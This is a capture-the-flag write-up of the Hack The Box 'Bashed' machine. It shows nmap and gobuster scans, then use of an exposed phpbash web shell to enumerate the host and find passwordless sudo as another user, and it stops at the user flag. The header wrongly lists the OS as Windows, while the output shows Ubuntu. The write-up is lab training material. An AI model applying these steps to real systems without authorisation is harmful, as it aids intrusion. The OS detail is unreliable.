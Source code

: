 # htb-bashed
This is my [Hack the box](https://www.hackthebox.eu/)'s Bashed machine write-up.

## Machine
OS: Windows

IP: 10.10.10.68

Difficulty: Easy

## Initial enumeration
[Nmap](https://github.com/nmap/nmap) scan on the target:

`nmap -sV -sC -oN bashed.nmap $BASHED`

Flags:
 - `-sV`: Version detection
 - `-sC`: Script scan using the default set of scripts
 - `-oN`: Output in normal nmap format

```
root@kali:/home/kali# nmap -sC -sV -Pn -oN bashed.nmap $BASHED
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-26 20:01 EDT
Nmap scan report for 10.10.10.68 (10.10.10.68)
Host is up (0.23s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

There's a web server running on port 80. Get paths using gobuster:
```
root@kali:/home/kali# gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt --url http://10.10.10.68 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/26 20:26:58 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/dev (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/php (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2020/08/26 20:30:57 Finished
===============================================================
```

The page on port 80 advertises a web shell: [phpbash](https://github.com/Arrexel/phpbash). It mentions the tool was built on this server which makes us think it could be accessible. `/dev/phpbash.php` is its location.

Get some situational awareness information using the shell:
```
www-data@bashed:/var/www/html/dev# uname -a
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

www-data@bashed:/var/www/html/dev# whoami
www-data

www-data@bashed:/var/www/html/dev# env
OLDPWD=/var/www/html/dev
APACHE_RUN_DIR=/var/run/apache2
APACHE_PID_FILE=/var/run/apache2/apache2.pid
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
APACHE_LOCK_DIR=/var/lock/apache2
LANG=C
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data
APACHE_LOG_DIR=/var/log/apache2
PWD=/var/www/html/dev


www-data@bashed:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

It is possible already to grab the user flag from `home/arrexel`.
